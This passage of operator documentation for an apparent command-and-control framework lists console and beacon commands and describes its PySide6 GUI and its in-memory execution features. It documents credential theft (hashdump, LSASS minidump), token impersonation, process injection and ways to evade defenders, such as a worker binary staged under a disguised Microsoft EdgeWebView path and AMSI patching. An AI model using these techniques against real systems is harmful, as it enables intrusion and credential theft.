| `detach` | Detach from the current beacon, clearing the viewer heartbeat immediately |
| `info` | Show operator identity and role |
| `caps` | Show the capability list the server advertised |
| `audit [N]` | Read your own audit entries |
| `history` | Show local command history |
| `build [-c <file>]` | Compile an agent on the server |
| `c2-profiles` / `c2p` | List C2 profiles available for build, or show one profile's full JSON |
| `bofs` / `bf` | Manage the server-side BOF registry — `list`, `add`, `remove` |
| `chat` | Enter team chat |
| `loot` / `lootstore` | Browse, retrieve, delete, and upload shared loot — `list`, `get`, `upload`, `delete`, `help` |
| `creds` | Shared credential vault — `list`, `get`, `add`, `search`, `validate`, `delete` |
| `notes` | Engagement-wide notes — read, add, or search |
| `webhooks` | Server-side notification hooks — `list`, `add`, `remove`, `test`. A non-admin sees and manages only the hooks they added; an admin sees and manages every hook |
| `operators` / `op` | Manage operators (admin) or export your own config (any role) |
| `killall` | Queue self-destruct on multiple beacons — `--all`, `--stale`, `--tag <tag>`, `--ids a,b,c` |
| `recipes` | Operator recipes — persistence and post-exploitation patterns to run via `sh` |
| `deadman` | Inspect or reconfigure the dead-man's switch — `status`, `arm`, `arm-until`, `reset`, `disable`, `warn`, `halt`, `shred` (guardian) |
| `halt` | Run the shutdown sequence now (guardian) |
| `help` / `?` | Show this menu, filtered by role |
| `clear` / `cls` | Clear the screen |
| `exit` / `quit` | Disconnect |

### Remote operator management

**Available to admins:**

```
adc > operators list
adc > operators add <name> <viewer|operator>
adc > operators remove <name>
adc > operators set-role <name> <viewer|operator>
adc > operators passwd <name>
adc > operators export <name> [<path>]
```

**Available to every authenticated operator:**

```
adc > operators passwd                # reset your own password
adc > operators export [<path>]       # export your own config
```

Exports your own config. The path defaults to `<your-name>.cfg` in the
client's current working directory; pass an absolute path to control
the destination. The client prints the resolved absolute path when it
finishes.

**Protected by design:**

- **Admin accounts cannot be created, removed, demoted, or have their
  password reset remotely.** The `operator.add.admin`,
  `operator.remove.admin`, `operator.set_role.admin`, and
  `operator.passwd.other.admin` capabilities are `LOCAL_ONLY`. A
  remote caller never holds them, so the server refuses the request
  before the registry is touched.
- **Admin configs cannot be exported remotely.** Same reason —
  `operator.export.other.admin` is `LOCAL_ONLY`.
- **Self-removal and self-demotion are refused.** An admin cannot
  accidentally lock themselves out.
- **Password reset is symmetric.** An admin can reset another admin's
  password only from the local console. Remote admins can reset
  viewers and operators, but not each other.

Every operation is audited with a role-aware vocabulary. The `detail`
field on an export entry carries the SHA-256 of the config so a leak
traces back to a specific export.

### Beacon console (`beacon <ID>`)

**Native in-process verbs:**

| Command | Description |
|---------|-------------|
| `ls [path]` | Directory listing |
| `cat <path>` | File read |
| `readfile <path>` | Alias for `cat` |
| `find <path> [flags]` | Recursive search — `-name`, `-size`, `-mtime`, `-type` |
| `grep <pat> <path> [flags]` | Content search — `-r`, `-i`, `-l` |
| `head <file> [-n N]` | First N lines |
| `tail <file> [-n N]` | Last N lines |
| `stat <path>` | File metadata |
| `strings <file> [-n N]` | Printable-ASCII extraction |
| `hexdump <file> [-n N] [-o offset]` | Hex + ASCII view |
| `sha1 <path>` | SHA-1 hex digest |
| `sha256 <path>` | SHA-256 hex digest |
| `md5 <path>` | MD5 hex digest |
| `cksum <path>` | CRC-32 checksum |
| `wc <path>` | Line, word, byte counts |
| `nl <path>` | Number lines |
| `rev <path>` | Reverse each line |
| `sort <path>` | Sort lines (lexical, `-n` numeric, `-r` reverse) |
| `uniq <path>` | Collapse adjacent duplicate lines |
| `tr <set1> <set2>` | Translate or delete characters (stdin) |
| `base64 <path>` | Base64-encode a file |
| `gzip <path>` | Gzip-compress a file |
| `gunzip <path>` | Gzip-decompress a file |
| `which <cmd>` | Resolve a command to its on-disk path |
| `readlink <path>` | Resolve symlink (Linux) |
| `realpath <path>` | Canonical absolute path |
| `du <path>` | Directory size |
| `ps` | Process list |
| `id` | uid / gid / groups |
| `env` | Environment variables |
| `pwd` | Current directory |
| `whoami [/priv]` | Current user; `/priv` lists token privileges (Windows) |
| `hostname` | Host name |
| `uname` | OS + arch |
| `df [path]` | Disk usage |
| `uptime` | System uptime |
| `date` | Local and UTC time |
| `getpid` / `getppid` | Beacon's own or parent PID |
| `ifconfig` | Interface addresses |
| `netstat` | Listeners and established sockets |
| `arp` | ARP cache |
| `route` | Kernel routing table |
| `users` | Local user accounts |
| `groups` | Local groups |
| `av-list` | Installed security products (WMI or systemd) |
| `screenshot` | Interactive desktop capture (Windows) |
| `mkdir <path>` | Create directory tree |
| `rm [-r] <path>` | Remove file / tree |
| `cp <src> <dst>` | Copy file |
| `mv <src> <dst>` | Move / rename |
| `chmod <octal> <path>` | Change mode (Linux) |
| `ln [-s] <target> <link>` | Create a symbolic link (Linux) |
| `touch [-r <ref>] <path>` | Create file or copy a reference mtime |
| `curl <url>` | HTTP/HTTPS client |
| `resolve <host> [type]` | DNS lookup (A, AAAA, CNAME, MX, NS, TXT, PTR) |
| `nc <host> <port>` | TCP connect, banner grab, or probe |
| `hashdump [<outdir>]` | SAM + SYSTEM hives (Windows) or `/etc/passwd` + `/etc/shadow` (Linux) |
| `enablepriv <args>` | List, enable, or disable Windows token privileges |
| `lsassdump --dump [flags]` | LSASS minidump (Windows) — see [LSASS minidump](#lsass-minidump) |
| `make_token <DOMAIN\user> <password>` | Windows: build and hold a NEW_CREDENTIALS token; subsequent `exec` runs as that user. `make_token --revert` is the same as `rev2self` |
| `rev2self` | Windows: drop the held impersonation token |
| `runas <DOMAIN\user> <password> <command> [args...]` | Windows: spawn a child in a fresh logon session under the supplied credentials. Returns the PID; does not wait |
| `spawnto <path>` | Set the sacrificial process that `execute-assembly` spawns (Windows only). `spawnto` with no argument shows the current value; `spawnto --clear` reverts to the default worker path under `%LOCALAPPDATA%` |

**Network verbs:**

Three verbs speak network protocols directly from the agent's own
socket. No `/bin/curl`, no `dig`, no `/bin/nc`.

**`curl`** — HTTP/HTTPS client using Go's `net/http`. Flags:

| Flag | Effect |
|------|--------|
| `-X <method>` | HTTP method (default GET; POST when `-d` is present) |
| `-H "Name: Value"` | Add a header (repeatable) |
| `-d <data>` | Request body |
| `-A <user-agent>` | Override the User-Agent header |
| `-k`, `--insecure` | Skip TLS certificate verification |
| `-i`, `--include` | Include response headers in output |
| `-L`, `--location` | Follow redirects (default off, matching curl) |
| `-o <path>` | Write body to a file; print a summary line |
| `-m <seconds>` | Total timeout (default 30) |
| `--max-size <bytes>` | Cap body bytes shown/written (default 1 MiB) |

Verification is on by default. Pass `-k` for the self-signed endpoints
that internal services commonly use (IMDS at `169.254.169.254`,
vCenter, Kubernetes API servers).

**`resolve`** — DNS lookups through the stdlib resolver. No `dig`, no
`nslookup`, no child process.

```
resolve <host> [type]
```

Type is one of `A` (default), `AAAA`, `CNAME`, `MX`, `NS`, `TXT`,
`PTR`. `PTR` treats the argument as an IP address and does a reverse
lookup.

**`nc`** — TCP connectivity test and banner grab.

| Flag | Effect |
|------|--------|
| `-z` | Zero-I/O mode: connect and report open/closed |
| `-w <seconds>` | Per-operation timeout (default 5) |
| `--send "<data>"` | Send the given bytes first, then read |

Reads are capped at 64 KiB per invocation.

**Execution:**

| Command | Description |
|---------|-------------|
| `<cmd> [args]` | Arbitrary command via stdin-piped shell |
| `exec <cmd> [args]` | Direct spawn — argv visible in `ps` |
| `pyexec <file> [-- args]` | Run a local Python script on the target |
| `psexec <file> [-- args]` | Run a local PowerShell script (Windows) |
| `shexec <file> [-- args]` | Run a local shell script |
| `pyexec --stdin` / `psexec --stdin` / `shexec --stdin` | Paste the script source directly; end with `.` on its own line |
| `sh --stdin` | Paste a shell command; the source is delivered through the stdin-piped shell |
| `make_token <DOMAIN\user> <password>` | Windows: build a NEW_CREDENTIALS token and hold it. `make_token --revert` is `rev2self` |
| `rev2self` | Windows: drop the held impersonation token |
| `runas <DOMAIN\user> <password> <cmd> [args...]` | Windows: spawn a child under the supplied credentials in a fresh logon session |

**Paste mode.** The `--stdin` verbs read the source from the
operator's terminal instead of from a local file. In the CLI, the
paste-mode banner is followed by a `  | ` prompt on each line;
input terminates on a line containing only `.`:

```text
● beacon#1001 > pyexec --stdin
[paste mode: end with "." on its own line]
  | import os
  | print(os.getuid())
  | .
queued 3f8a1c2d
✓ pyexec  1.42s
  0
```

In the GUI, the same command opens a modal editor with a
**Deliver** button; the button is the terminator. Both paths
drive the same `Client._read_multiline` method — the GUI closes
the modal with the full source in one call, then the follow-up
`input('  | ')` returns `.` and ends the loop.

**File transfer:**

| Command | Description |
|---------|-------------|
| `upload <local> <remote>` | Chunked upload with SHA-256 verification |
| `download <remote> <local> [--no-loot]` | Chunked download with SHA-256 verification; also pushes to the loot store |

**In-memory execution:**

| Command | Description |
|---------|-------------|
| `execmem <remote> exe\|elf [-- args]` | Execute a previously-uploaded payload in memory |
| `execute-assembly <local.exe> [-- args]` | Run a .NET assembly in memory (Windows) |
| `bof <name\|path> [args]` | Run a registered BOF or a local `.o` file (Windows) |

**Extensions:**

| Command | Description |
|---------|-------------|
| `extension list` | List extensions in the operator-side store |
| `extension info <name>` | Show a manifest |
| `extension load <name\|path>` | Push and register a WASM extension |
| `extension unload <name>` | Close and drop a loaded extension |
| `extension list-loaded` | List extensions the agent holds in memory |
| `extension call <name> [args...]` | Run a loaded extension |
| `<name> [args...]` | Run a loaded extension (bare-name shorthand) |

**Scheduling:**

| Command | Description |
|---------|-------------|
| `sleep <N> [jitter]` | Change the check-in interval |
| `workhours <start> <end>` | Set the working-hours window |
| `workhours off` | Disable the working-hours window |
| `workhours` | Show current window |
| `spawnto <path>` | Set the sacrificial process that `execute-assembly` spawns (Windows only). `spawnto` with no argument shows the current value; `spawnto --clear` reverts to the default worker path under `%LOCALAPPDATA%` |
| `schedule add <N><u> <verb> [args]` | Add a recurring server-side task |
| `schedule list` | List schedules for this beacon |
| `schedule remove <id>` | Delete a schedule |
| `tasks` | List outstanding tasks |
| `wait [task-id]` | Block until pending task(s) complete |
| `kill` | Queue self-destruct |

**Session tools:**

| Command | Description |
|---------|-------------|
| `alias [<name>]` | Set or clear this beacon's alias |
| `tag <tag>` / `untag <tag>` | Add or remove a tag on this beacon |
| `note` / `note set <text>` / `note clear` | Per-beacon notes |
| `graph [tree\|flat\|summary\|path <a> <b>]` | Engagement-wide session graph |
| `export [path]` | Export session to HTML transcript |
| `migrate --self \| <pid> \| <name> [--method <name>]` | Detach a copy of the agent (`--self`), or inject the agent's embedded shellcode into a foreign process by PID or executable basename; the session survives on the new process. `--method default` uses `CreateRemoteThread` on Windows or `ptrace` on Linux; `--method apc` uses remote APC injection on Windows. When `--method` is absent the build-time default is used |
| `hashdump [<outdir>]` | Windows: read SAM + SYSTEM hives and decrypt locally with `secretsdump.py`. Linux: merge `/etc/passwd` and `/etc/shadow` into `unshadow(8)` format |
| `enablepriv <args>` | List, enable, or disable Windows token privileges on the current process |
| `lsassdump --dump [flags]` | LSASS minidump. The highest-signal verb in the framework — see [LSASS minidump](#lsass-minidump) |
| `make_token` / `rev2self` / `runas` | Windows identity manipulation: build and hold a NEW_CREDENTIALS token, drop the held token, or spawn a child in a new logon session |
| `info` | Show beacon identity and scheduling |
| `forget` / `rm` / `remove` | Delete the session from the registry |
| `exit` / `detach` | Return to the main menu |

**Task management:**

| Command | Description |
|---------|-------------|
| `tasks` | List outstanding tasks with verb, args, queue time, and queuer |
| `cancel <task-id>` | Cancel a task you queued before the beacon picks it up |
| `wait [task-id]` | Block until pending task(s) complete |
| `kill` | Queue self-destruct |

---

## GUI Operator Console

The `--gui` flag launches a PySide6 (Qt 6) operator console in
place of the terminal REPL. It is a presentation layer only: the
CLI is the backend, and every action the GUI performs is a call
into the same `Client` instance the terminal client uses. There is
no second protocol implementation, no second dispatch table, and
no second task-queue consumer. The window uses a GitHub-dark-
inspired theme applied through a single `Palette` class so every
widget picks up the same colours without per-widget styling.

    python beacon-client.py -c alice.cfg --gui

<p align="center">
  
</p>

**What it is not.** The GUI is not a different client. The CLI
remains the reference implementation. Every protocol change, every
new verb, every fix lands in `tornado_client/repl.py` as before and
is picked up by the GUI without modification. The only coupling
between the two is a small dispatch shim that maps each top-level
command to the same `Client._cmd_*` method the CLI's main loop
calls.

### How the delegation works

The GUI is not a parallel implementation. Three substitutions in
`gui.py` are the entire bridge:

1. **stdout bridge.** `sys.stdout` and `sys.stderr` are replaced
   with `_GuiStream`, a queue-backed `TextIOBase`, *before*
   `tornado_client.repl` is imported. Because `repl._COLOR` is
   computed at import time from `sys.stdout.isatty()`, the swap
   makes `_COLOR` False and the `CLR` dict all empty strings. Every
   line the CLI prints arrives in the Log tab as plain text, and
   the GUI applies its own colour tags based on line shape — `✓`,
   `✗`, `──`, `[!]`.

2. **`input()` interception.** `builtins.input` is replaced with a
   modal dialog on the main thread. The command worker thread
   blocks on a `threading.Event` until the dialog closes, so the
   CLI's synchronous call graph — `_cmd_killall`'s confirmation,
   `_cmd_forget`'s prompt, `_read_multiline`'s paste loop — runs
   unchanged.

3. **`getpass.getpass()` interception.** Replaced with a masked
   modal. The password never appears in the widget history or the
   Log tab.

Because the swap happens before import, there is no GUI-specific
dispatch table. Every `_cmd_*` method the CLI calls is reached
through the identical code path.

### Password prompt before the GUI exists

`Transport.__init__` prompts for the operator password via
`getpass.getpass()` when the config carries `password_required:
true`. That call happens in `main_gui` *before* `GuiApp` is
constructed — and therefore before the GUI's normal `getpass`
interceptor is installed. The standard library falls back to
reading stdin when there is no TTY, which silently produces no
password under a GUI launch and every subsequent request is
rejected with `password_required`.

`_early_getpass` closes this window: it opens a `QDialog` against
the already-running `QApplication`, reads the password, and
returns. `QApplication` is created before the transport is
constructed, so the dialog has a valid event loop to run in
without a second `QApplication`. The reordering is what makes the
GUI's password prompt work at all — Qt permits exactly one
`QApplication` per process, and it must exist before any widget.

### Chat is not the CLI's chat loop

The CLI's `_cmd_chat` is a synchronous loop that blocks the
calling thread on `input()`. Running it in the GUI would lock the
operator out of the Log tab for as long as they were in chat.

The GUI takes a different approach: `_GuiChat` starts a
long-poll thread at GUI startup and keeps it running until
shutdown. Messages land in the Chat tab whether or not the
operator is looking at it. Typing in the Chat tab routes the line
to a dedicated chat worker thread; typing in the Log tab routes
it to the command worker. The two never block each other, and the
CLI's synchronous `_cmd_chat` is never invoked from the GUI.

The CLI is unaffected. `repl.py` keeps its synchronous loop; a
CLI client still uses it.

### Tab routing

The input bar is a single widget, but where the typed line goes
depends on the active tab:

| Active tab | Route | Busy state |
|------------|-------|------------|
| Log | Command worker thread | Input disabled while a command is in flight |
| Chat | Chat worker thread | Always enabled — chat is never blocked by a running command |

The prompt reflects the tab and, in chat mode, the active DM
peer: `#1001 ›`, `chat ›`, or `chat→bob ›`. Switching tabs fires
`_on_tab_change`, which calls `_update_input_prompt` and
`_update_input_state`.

### Undo / redo

The input bar carries Ctrl+Z / Ctrl+Y / Ctrl+Shift+Z undo-redo,
wired by `_enable_undo`. The undo stack is per-widget, so it
follows whichever tab is active — an operator's last few edits
are almost always on the same tab they are looking at.

### Build dialog

`build` with no arguments opens a native Qt form
(`_BuildDialog(QDialog)`) instead of the CLI wizard. The form is
dynamic: the transport selector changes which endpoint fields
appear, the target OS selector filters the transport list (SMB
appears only for Windows, ICMP only for Linux), and the
output-format selector controls whether stager fields and the
inject toggle are shown. Field values live in a plain Python dict
(`self._v`) created once in `__init__`; the form is rebuilt by
reading from that dict, so a transport switch never loses an
entered value.

`build -c <file.json>` bypasses the form entirely and hands the
file to `Client._cmd_build`, the same parser the CLI uses.

Two JSON entry points share the same `Client._cmd_build` path the
CLI uses. The main window's menu bar carries a **Build from JSON
config…** item: it opens a file picker and hands the selected file
straight to `_cmd_build`, bypassing the form entirely. The build
dialog itself carries a **Load config…** button: it opens the same
file picker and populates the form's fields from the selected file,
leaving the operator free to adjust values before submitting.

Both paths are thin wrappers around the CLI's existing config
parser. Neither re-implements config validation, field naming, or
transport-consistency checks — a config that the CLI would refuse is
refused with the same error message in the GUI.

### Layout

The window is divided into four regions:

| Region | Contents |
|--------|----------|
| Header (top) | App wordmark, live `host:port`, role badge, colour-coded online/offline pill |
| Sidebar (left) | Beacon tree with `ID`, `ALIAS`, `USER@HOST`, `PLATFORM`, `LAST`, `VIEW` columns; search box; `Attach` / `Detach` / `Refresh` buttons; right-click context menu |
| Main pane (right) | Tabbed `Log` and `Chat`, driven by the same streams the CLI writes to stdout |
| Input bar (bottom) | Single-line command entry with a `Send` button. Repurposed as the chat input while the CLI's chat loop is running |
| Status bar | Left: beacon id, liveness, sleep interval. Right: wall clock |

A rough sketch of the layout:

```text
┌──────────────────────────────────────────────────────────────────────┐
│ ◈ TORNADOC2   c2.example.com:12341                 ● online  ADMIN  │
├──────────────────────┬───────────────────────────────────────────────┤
│  BEACONS · 3 / 4     │  ┌─ Log ─┬─ Chat ─┐                          │
│  [search…]           │  │                                              │
│  ● #1001 dc01        │  │  ✓ connected                                 │
│    alice@WIN-DEV     │  │  ✓ beacon #1001 attached                     │
│  ● #1002             │  │  queued 3f8a1c2d                             │
│    bob@WIN-SRV2      │  │  ✓ ls  0.42s                                 │
│  ○ #1003             │  │    C:\Users\alice                            │
│    root@srv-linux    │  │    C:\Users\Public                           │
│                      │  │                                              │
│  [Attach] [Detach]   │  └──────────────────────────────────────────────┘
│  [Refresh]           │  #1001 › ls C:\Users\alice          [ Send ]   │
├──────────────────────┴───────────────────────────────────────────────┤
│  beacon #1001 · alive · sleep=60s                        14:32:07    │
└──────────────────────────────────────────────────────────────────────┘
```

### Behaviour

- **stdout bridge.** `sys.stdout` and `sys.stderr` are replaced with
  a queue-backed stream before `tornado_client.repl` is imported, so
  `repl._COLOR` computes to `False` and the `CLR` dict is empty. Every
  line the CLI prints arrives in the Log tab without ANSI escapes.
  The GUI applies its own colour tags based on line shape — `✓`,
  `✗`, `──`, `[!]`, and so on.
- **`input()` interception.** The CLI's confirmation prompts
  (`killall`, `forget`, `halt`, the wizards) arrive as modal dialogs
  on the main thread. The worker thread blocks on an `Event` until
  the dialog closes, so the CLI's synchronous call graph is preserved.
- **`getpass.getpass()` interception.** Password prompts use a masked
  modal. The password never appears in the widget history.
- **Chat mode.** The CLI's `_cmd_chat` runs a synchronous loop that
  calls `input()` with a prompt beginning `[chat`. The GUI detects
  that prefix and reroutes the call to the input bar instead of a
  modal: the operator types chat messages in place, and the worker
  unblocks when Send is pressed. When the chat loop exits, the bar
  reverts to command mode. DM mode, `/me`, `/topic`, `/file`,
  `/history`, and the rest of the client-side slash commands are
  unchanged — they run inside the CLI's own chat loop.
- **Chat rendering.** `Client._chat_render` and
  `Client._chat_render_topic` are overridden to route to the Chat
  tab instead of stdout. Day separators, per-operator colouring,
  `@mention` highlighting, DM direction tags, and the pinned-topic
  banner are all rendered by the GUI, using the same message dicts
  the CLI would have printed.
- **Build form.** `build` with no arguments opens a native form
  that collects the same fields the CLI wizard does and hands the
  resulting payload to `Client._do_remote_build`. `build -c
  <file.json>` still goes through the CLI's own config parser
  unchanged.
- **Clipboard.** Copy and paste follow terminal conventions — see
  [Copy and paste](#copy-and-paste) below for the priority order
  and the reason Ctrl+C has three behaviours.
- **Beacon tree.** Auto-refreshes every four seconds while idle. The
  sidebar header shows live/stale counts for the currently loaded
  set; every column carries a full-identity tooltip so an operator
  can hover a truncated `USER@HOST` cell and read the complete
  `machine_id`, `identity_role`, and platform tuple without opening
  a detail pane. The `VIEW` column shows other operators attached
  to the same beacon, matching the CLI's `beacons` output. The
  search box filters on the currently loaded rows; the column
  headers sort. Right-clicking a row offers `Attach`, `Show info`,
  `Set alias…`, `Kill`, and `Forget`.

### Keyboard shortcuts

| Shortcut | Action |
|----------|--------|
| `Enter` | Submit the current line, or send a chat message in chat mode |
| `Up` / `Down` | Command history (independent of the CLI's readline history) |
| `Ctrl+C` | Copy the current selection if one exists; otherwise clear the input bar. Context-dependent — see [Copy and paste](#copy-and-paste) |
| `Ctrl+Shift+C` | Copy the current selection only; no clear fallback. Matches the terminal's copy convention |
| `Ctrl+V` / `Ctrl+Shift+V` | Paste. Natively routed to the focused widget; falls back to the input bar when a read-only view holds focus — see [Copy and paste](#copy-and-paste) |
| `Ctrl+Z` / `Ctrl+Y` / `Ctrl+Shift+Z` | Undo / redo in the input bar |
| `Ctrl+B` | Open the build form |
| `Ctrl+T` | Enter chat |
| `Ctrl+L` | Clear the Log tab |
| `Ctrl+1` / `Ctrl+2` | Switch to the Log or Chat tab |
| `Ctrl+Q` | Quit (prompts for confirmation) |
| `F5` | Refresh the beacon list |

### Copy and paste

The three clipboard keys follow terminal conventions rather than
menu conventions, because an operator with `pyexec --stdin` habits
expects the terminal shape.

**Ctrl+C is context-dependent.** Priority order:

1. If a focused editable widget has a selection, that selection is
   copied — the same behaviour the widget's own Ctrl+V handler
   would produce.
2. Otherwise, if the active Log or Chat tab has a selection, that
   is copied. The inactive tab is not consulted; its selection is
   not visible to the operator and should not be silently copied.
3. Otherwise, if the input bar contains text, Ctrl+C clears it —
   matching the CLI's Ctrl+C-at-prompt behaviour.
4. Otherwise, no-op. Ctrl+C never quits. `Ctrl+Q` is quit.

**Ctrl+Shift+C** forces the copy path only. It skips the clear
fallback, so an operator who knows the clipboard is empty gets a
no-op rather than a wiped input line.

**Ctrl+V and Ctrl+Shift+V** route to the focused editable widget
using its own `paste()` method. Read-only views (the Log and Chat
tabs, the beacon tree) are not treated as paste targets. If no
editable widget holds focus, the keystroke is consumed by the
read-only view and the clipboard contents are not delivered
anywhere — paste while the Log tab is focused and nothing happens.

All four shortcuts are bound with `ApplicationShortcut` context, so
they fire even when a modal dialog holds focus. `Ctrl+C` on the
build dialog's URL field copies the field's selection; `Ctrl+V`
pastes into it. The dialog's own behaviour is not overridden,
because the focused-widget branch in each handler calls the
widget's native method.

### What the GUI deliberately omits

- **Readline history and tab completion.** These are terminal
  features; the GUI keeps its own command history but does not
  provide completion. A future revision can wire
  `Client._compute_matches()` into a `QCompleter` on the input
  bar.
- **Live rendering of tables** (`beacons`, `tasks`, `loot list`,
  `creds list`). The Log tab shows them as text. A future revision
  can promote them to native widgets.
- **Inline ANSI in the Log tab.** The GUI strips escape sequences
  and applies its own tags. Copying from the Log tab yields clean
  text.

### Platform selection

The GUI runs on X11 and Wayland without configuration. At import
time it inspects `WAYLAND_DISPLAY` and `DISPLAY` and sets
`QT_QPA_PLATFORM` accordingly:

- A session with `WAYLAND_DISPLAY` set (a native Wayland session, or
  a Wayland session with XWayland in the mix) selects
  `wayland;xcb`. The semicolon-separated form is Qt's built-in
  fallback syntax: try the Wayland plugin, fall through to `xcb` if
  the runtime does not carry it.
- A session with only `DISPLAY` set (pure X11, or an SSH session
  with X11 forwarding) selects `xcb`.
- A session with neither (a headless host running the GUI under
  `offscreen`) leaves `QT_QPA_PLATFORM` unset and lets Qt decide.

`setdefault` is used rather than assignment, so an operator who
wants to force one backend can `export QT_QPA_PLATFORM=xcb` (or
`=wayland`) before launching and the choice is preserved.

Wayland requires the compositor's client libraries. On a desktop
install of Debian 13, Ubuntu, or Fedora they are already present.
On a minimal server image, `install-deps-client.sh` installs
`libwayland-client0`, `libwayland-cursor0`, `libwayland-egl1`, and
`qt6-wayland` alongside the xcb runtime libraries.

### OpenGL backend

The GUI forces `LIBGL_ALWAYS_SOFTWARE=1` at import time. On a host
without a GPU-backed EGL/GLX display — a VM, a headless SSH session
with X11 forwarding, a container — Qt probes the hardware driver
first and prints

```
libEGL warning: egl: failed to create dri2 screen
```

on every launch, then falls back to software rendering and runs
normally. Setting the variable skips the failed probe. The
assignment uses `setdefault`, so an operator with a working GPU can
`export LIBGL_ALWAYS_SOFTWARE=0` before launching the client and
hardware rendering is preserved.

### Failure modes

Three failure modes are worth naming:

- **`ModuleNotFoundError: No module named 'PySide6'`.** The
  interpreter cannot find PySide6. Install with `pip install
  PySide6`. A venv or `--venv` install must be activated before
  launching the client; a system install may need
  `--break-system-packages` on Debian 12+.
- **`qt.qpa.plugin: Could not load the Qt platform plugin
  "xcb"`** (or the equivalent `wayland` message). The interpreter
  has PySide6 but the system Qt runtime libraries are missing. On
  Debian-derived systems:
  `apt install libgl1 libegl1 libxkbcommon-x11-0
  libxcb-cursor0 libxcb-icccm4 libxcb-image0 libxcb-keysyms1
  libxcb-randr0 libxcb-render-util0 libxcb-shape0
  libxcb-xinerama0 libwayland-client0 libwayland-cursor0
  libwayland-egl1 qt6-wayland`. `install-deps-client.sh` installs
  this set on Debian / RHEL / Arch. A headless host can still
  import PySide6 for a smoke test with `QT_QPA_PLATFORM=offscreen`.
- **`qt.qpa.xcb: could not connect to display`** (or the equivalent
  `wayland` message). The runtime libraries are present but there
  is no display socket. Use `ssh -X`, a VNC session, or run the
  GUI on the machine with the display.

The CLI is unaffected by all three. When the GUI fails to start,
the error is printed to the original stderr (restored before exit)
so it is visible even when the stdout bridge is already active.

---

## In-Memory Execution

Three verbs execute a payload without writing the executable to disk in
a form a defender can recover.

### `execute-assembly <local.exe> [-- args...]`

Runs a .NET assembly in memory on a Windows target **without
hosting the CLR in the beacon process**. The beacon spawns a
sacrificial worker process — a fresh copy of the beacon binary by
default, or whatever path the operator has set with the `spawnto`
verb — hands it the target assembly as a base64 string through its
environment, and reads the captured stdout/stderr from an output
file the worker writes. The beacon does not host the CLR and does
not load the assembly; only the worker does.

**Why the worker model exists.** Most of the Sharp* family calls
`Environment.Exit` at the end of `Main`. That terminates the
process it runs in. An in-process CLR host would take the beacon
down with the target; the worker model isolates the target's
teardown to a process the beacon does not depend on. The beacon
sees the worker exit, reads the output file the worker left behind,
and posts it as the task result — the same shape as any other
verb, from the operator's perspective.

**Requirements:**

- Target OS: Windows
- Target architecture: amd64 or 386
- .NET Framework 4.x installed on the target. The worker requests
  `v4.0.30319` at runtime and fails with a specific HRESULT if the
  runtime is absent.
- `Bootstrap.dll` embedded next to the loader source. The bootstrap
  is a fixed, non-secret managed DLL that receives
  `<b64-assembly>|<b64-args>|<output-path>` as a single argument,
  calls `Assembly.Load(byte[])` on the target, invokes its entry
  point via reflection, and redirects `Console.Out` /
  `Console.Error` to the output path. Its hash is stable across
  builds and it carries no operation-specific data.

**What touches disk.** The target assembly never touches disk. The
bootstrap — a fixed, checked-in DLL — is written to `%TEMP%` with
`FILE_FLAG_DELETE_ON_CLOSE` and is removed when the worker process
exits. The worker's output file is a small text file under the
same temp directory; the beacon reads it and removes it when the
task returns. A defender who watches `%TEMP%` during an
`execute-assembly` invocation sees a small DLL and a small text
file appear and disappear within the target's runtime.

**The default staging path persists a copy of the beacon binary on disk.** `execute-assembly` needs a worker binary. The default is `%LOCALAPPDATA%\Microsoft\EdgeWebView\svc.exe`, a copy of the beacon staged on first use. That copy is a fully functional beacon binary — it inherits every build-time property of the original — but it never checks in, because the parent sets `TORNADO_WORKER=1` in the environment it spawns it with. An operator whose threat model includes a forensic capture of the host's `%LOCALAPPDATA%` tree should either stage a sacrificial binary at a path of their own choosing first and set `spawnto` to that path, or accept the artifact knowingly. There is no opt-out: the worker is always a separate file from the parent, because running the worker from the parent's own on-disk location makes the parent's binary vulnerable to anything the worker does.

**Sacrificial process.** The binary the beacon spawns as the
worker is controlled per-session by the `spawnto` verb:

```
● beacon#1001 > spawnto C:\Windows\System32\rundll32.exe
spawnto=C:\Windows\System32\rundll32.exe

● beacon#1001 > spawnto
spawnto=C:\Windows\System32\rundll32.exe

● beacon#1001 > spawnto --clear
spawnto=<default>
```

The three values are distinct. `spawnto` with no argument reads the current state. `spawnto --clear` 
(or `spawnto -`) reverts to the default worker path. `spawnto self` opts into the historical 
self-spawn-from-original-binary behaviour — useful on hosts where `%LOCALAPPDATA%` is unwritable, 
or when the operator wants no second on-disk artifact, but the worker then shares the parent's 
on-disk file, which is the footgun the default exists to avoid.

`<default>` means the worker is a copy of the beacon staged at
`%LOCALAPPDATA%\Microsoft\EdgeWebView\svc.exe`, produced on first
`execute-assembly` and re-staged whenever the file is missing. The
operator does not need to set anything for that default. The value
rides the HTTP/QUIC `X-Beacon-SpawnTo` response header, the
WebSocket envelope's `scheduling` map, or a synthetic `spawnto`
task on the DNS transport. It applies on the worker's next
invocation, not on an already-running task.

**Wire format:**

```
{verb: "execute_assembly",
args: [<b64_assembly>, "<args>"]}
```

**Behaviour notes:**

- **Entry point.** The bootstrap invokes the assembly's declared
  `EntryPoint`. The Sharp* family all declare `Main(string[])` and
  work without any additional metadata.
- **Argument passing.** Arguments after `--` are joined with spaces
  and handed to the target as a single-element `string[]`. The
  bootstrap also rewrites `Environment.CommandLine` before invoking,
  so CommandLineParser-based tools see the operator's arguments
  rather than the worker's.
- **Output capture.** The bootstrap redirects `Console.Out` and
  `Console.Error` to a temp file. `AutoFlush = true` is set on the
  writer so a target that calls `Environment.Exit` mid-run does not
  lose its final lines. Output is capped at 4 MiB per invocation.
- **AMSI.** `Assembly.Load(byte[])` is an AMSI trigger. The `opsec`
  profile patches `AmsiScanBuffer` in-process; that patch must run
  in the worker before the `execute-assembly` loader reaches the
  CLR. The loader does not attempt a bypass of its own.
- **Donut.** Still supported for `--format shellcode` builds, where
  the assembly is wrapped into position-independent shellcode by
  Donut at build time and executed by the shellcode runner. The
  `execute-assembly` verb itself no longer goes through Donut.

### `execmem <remote_path> <exe|elf> [-- args...]`

Executes a previously-uploaded file in memory.

**Windows.** In-process Go PE loader: maps the image, resolves the
import table, applies base relocations, walks the TLS directory to
register callbacks, applies per-section protections, and calls the
entry point on a new OS thread. No PowerShell child, no `csc`, no
`Add-Type`, no temp file. The image is not registered with the LDR
and is not discoverable by a later `LoadLibrary`. CFG-enabled hosts
that refuse to execute the mapped image will produce a launch
failure — fall back to a Donut-wrapped build for those hosts.

**Linux.** `memfd_create` anonymous file, `/dev/shm` fallback.

### `bof <name|path> [args...]`

Executes a Beacon Object File (COFF) in memory via an embedded C#
